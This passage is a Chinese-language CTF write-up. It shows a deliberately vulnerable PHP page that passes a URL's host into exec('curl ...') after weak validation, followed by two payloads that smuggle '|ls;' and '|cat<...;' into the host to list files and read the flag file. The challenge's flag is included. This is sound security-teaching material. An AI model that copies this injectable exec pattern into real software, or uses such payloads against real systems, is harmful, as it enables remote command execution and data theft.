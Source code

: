 ![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200309153333.png)

### CTF

- 环境搭建

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200309155130.png)

- flag.php

```php
<?php  
$flag = "HRCTF{f1lt3r_var_1s_s0_c00l}"
?>
```

- index.php

```php
<?php 
$url = $_GET['url']; // 获取url

if(isset($url) && filter_var($url, FILTER_VALIDATE_URL)){  //过滤url
    $site_info = parse_url($url);

    if(preg_match('/sec-redclub.com$/',$site_info['host'])){ //以sec-redclub.com结尾
        exec('curl "'.$site_info['host'].'"', $result);
        echo "<center><h1>You have curl {$site_info['host']} successfully!</h1></center>
              <center><textarea rows='20' cols='90'>";
        echo implode(' ', $result);
    } //命令执行
    
    else{
        die("<center><h1>Error: Host not allowed</h1></center>");
    }

}
else{
    echo "<center><h1>Just curl sec-redclub.com!</h1></center><br>
          <center><h3>For example:?url=http://sec-redclub.com</h3></center>";
}
?>
```

- payload

```
syst1m://"|ls;"sec-redclub.com
syst1m://"|cat<f1agi3hEre.php;"sec-redclub.com
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200309162636.png)


## 实例化任意对象漏洞
### Snow Flake
